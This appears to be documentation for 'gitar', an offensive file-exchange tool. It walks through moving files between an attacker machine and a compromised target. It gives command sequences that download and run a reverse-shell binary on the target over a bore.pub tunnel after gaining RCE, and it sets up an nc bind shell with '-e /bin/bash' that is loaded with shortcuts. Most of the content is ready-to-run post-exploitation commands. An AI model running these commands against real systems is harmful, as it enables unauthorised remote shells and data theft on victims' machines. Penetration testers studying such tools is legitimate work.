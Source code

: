 ## Bidirectional exchange

You can also use `push` and `pull` shortcuts from attacker machine, after shortcuts have been loaded on target. It does not require addtional requirements on both machines. To do so it is recommended to load `alias` (put them in your `~/[SHELL]rc`) and launch gitar as follow:
```shell
gtrclean
gitar -bidi
```

On another attacker terminal window you can now push file to remote:
```shell
gtrbidi #to load gitar shortcut
push [FILENAME]

#[...] when your exchange is done
gtrclean 
```

***Notes:*** It will push files on remote within the directory where the `source` command occurs

### 🐋 Container and bidirectional exchange
```shell
BIDIR=$(mktemp -d);docker run -it --rm --cap-drop=all --cap-add=dac_override --net host --user $(id -u):$(id -g)  -v "${PWD}:/gitar/exchange" -v "$BIDIR:$BIDIR" ariary/gitar -bidi -bd $BIDIR
```

Then on attacker machine load shortcut:
```shell
gtrbidi.docker
```

### Limits
* Only work for file (does not work for `pullr` and `pushr`)
* Increase considerably the number of http requests on target

## Multiplexing & Port forwarding
> ***- Why?***
> 
>\- To expose my http file exchange server + reverse shell listener on the same port

*useful when paired with a tunnel to localhost (as with free version you often have only 1 port/tunnel at a time)*

Suppose:
 * you use [`bore`](https://github.com/ekzhang/bore) to perform localhost tunneling
 * you have RCE on remote target
 * Target -> Attacker is not possible but Target -> Internet -> Attacker is

If you want an **interactive** reverse shell you may think about [`tacos`](https://github.com/ariary/tacos).

You need to download it on target. Then execute it.

**BUT** HTTP server port and reverse shell listening port are not the same so tunneling only 1 local port won't work.

Now you can! Here is the procedure:
```shell
# On attacker
## First tab, port tunneling
bore local 9292 --to bore.pub

## Second tab, launch gitar (serve tacos of course)
gitar -e bore.pub -p [BORE_PORT] -f 4444 -s demo

# On target
## Retrieve tacos binary
curl https://bore.pub:[BORE_PORT]/demo/pull/tacos
## Shutdown gitar http server (⇒ local port forwarding activated)
curl https://bore.pub:[BORE_PORT]/demo/shutdown
## Execute tacos to get interactive reverse shell
chmod +x tacos && ./tacos bore.pub:[BORE_PORT]
```

## Load shortcut directly in your bind shell

**~>** *Below are the steps to have shortcuts directly embedded in your `nc` reverse shell*

On **Target machine**:
```shell
# Launch your classic listener
nc -nvlp 4444 -e /bin/bash
```

On **Attacker machine**:

1. Launch `gitar`server : `gitar -e [server_reachable_ip]` *(By default this will copy on clipboard the command to set up gitar exchange, also available in server output)*
2. Connect to the reverse shell + load shortcut within:`nc [VICTIM_IP] 4444` then `[CTRL+V]` 

An alternative is `export CMD=[CTRL+V] && (echo $CMD && cat) | nc [VICTIM_IP] 4444` *(Note: with `cat` you will not benefit of bash completion)*

**And enjoy you bindshell [🎶](#tldr---and-listen-music)**
